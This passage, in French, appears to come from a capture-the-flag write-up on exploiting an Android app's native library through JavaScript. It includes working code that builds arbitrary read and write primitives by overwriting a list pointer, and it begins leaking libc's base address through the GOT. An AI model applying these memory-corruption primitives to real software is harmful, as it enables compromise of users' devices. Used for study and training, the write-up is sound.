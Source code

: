 ```javascript
invoke_addr = base_addr + 0xFA0;
console.log("invokeJavaMethod address : "+invoke_addr.toString(16));
```

### Obtenir des primitives de lecture/écriture arbitraires

Nous pouvons abuser des vulnérabilités identifiées dans `modify_element` pour tirer parti d'une lecture et d'une écriture arbitraires.

Une lecture arbitraire peut être obtenue en écrasant le pointeur `next_elm` du premier élément de la liste, avec l'adresse souhaitée. L'appel de `pop` modifiera ensuite `stack_top` pour qu'il pointe sur cette adresse, supprimant alors l'élément modifié. L'appel de `top` affichera les données situées à `stack_top`, qui est maintenant l'adresse que nous contrôlons.

L'écriture arbitraire s'obtient de la même manière. D'abord, nous devons modifier `stack_top` pour qu'il pointe sur l'adresse où nous voulons écrire, en utilisant les mêmes étapes que précédemment. Maintenant nous pouvons appeler `modify` une fois de plus pour écrire des données arbitraires à `stack_top`, qui est notre adresse souhaitée :

```javascript
function read(addr) {
    // push something because we pop after
    push("41")
    // 16*"41" + pointer overwrite
    modify("41414141414141414141414141414141"+pack64(addr));
    pop();
    return top();
}

function write(addr, data) {
    // push something because we pop after
    push("41")
    // 16*"41" + pointer overwrite
    modify("41414141414141414141414141414141"+pack64(addr));
    pop();
    modify(data)
}
```

### Divulgation de l'adresse de la libc

Une technique courante pour divulguer l'adresse de base de la libc lors de primitives de lecture arbitraires est de divulguer une adresse de la GOT (Global Offset Table). Nous devons choisir une fonction dont nous savons qu'elle a déjà été utilisée avant de la lire.

Nous avons décidé de divulguer l'adresse de `malloc`. Son offset dans libtridroid est `0x2F70`. Depuis notre shell ADB, nous pouvons voir à quel offset `malloc` est défini dans la libc de l'émulateur :

```
generic_x86_64_arm64:/ # readelf -s /system/lib64/libc.so | grep " malloc$"                                                                                                 
   801: 0000000000043410    79 FUNC    GLOBAL DEFAULT   14 malloc
  1658: 0000000000043410    79 FUNC    GLOBAL DEFAULT   14 malloc
```
